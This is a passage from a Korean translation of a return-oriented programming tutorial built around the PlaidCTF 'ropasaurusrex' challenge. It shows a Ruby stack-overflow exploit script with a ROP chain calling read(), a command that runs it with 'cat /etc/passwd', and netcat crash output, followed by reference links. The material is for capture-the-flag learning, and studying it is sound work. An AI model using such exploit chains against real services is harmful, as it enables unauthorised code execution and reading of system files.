 ``` ruby
$ cat sploit.rb
require 'socket'

s = TCPSocket.new("localhost", 4444)

# The command we'll run
cmd = ARGV[0] + "\0"

# From objdump -x
buf = 0x08049530

# From objdump -D ./ropasaurusrex | grep read
read_addr = 0x0804832C
# From objdump -D ./ropasaurusrex | grep write
write_addr = 0x0804830C

# Generate the payload
payload = "A"*140 +
  [
    cmd.length, # number of bytes
    buf,        # writable memory
    0,          # stdin
    0x43434343, # read's return address

    read_addr # Overwrite the original return
  ].reverse.pack("I*") # Convert a series of 'ints' to a string

# Write the 'exploit' payload
s.write(payload)

# When our payload calls read() the first time, this is read
s.write(cmd)

# Clean up
s.close()
```


공격 대상에 실행해 봅시다.

``` sh
ron@debian-x86 ~ $ ruby sploit.rb "cat /etc/passwd"
```


그리고 크래시를 일으키는 걸 확인합니다.

``` sh
listening on [any] 4444 ...
connect to [127.0.0.1] from debian-x86.skullseclabs.org [127.0.0.1] 53456
Segmentation fault (core dumped)
```


`read()`의 반환 주소(`0x43434343`)에서 크래시를 일으켰고 명령어를 메모리
`0x08049530`에 썼다는 걸 확인합니다.


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump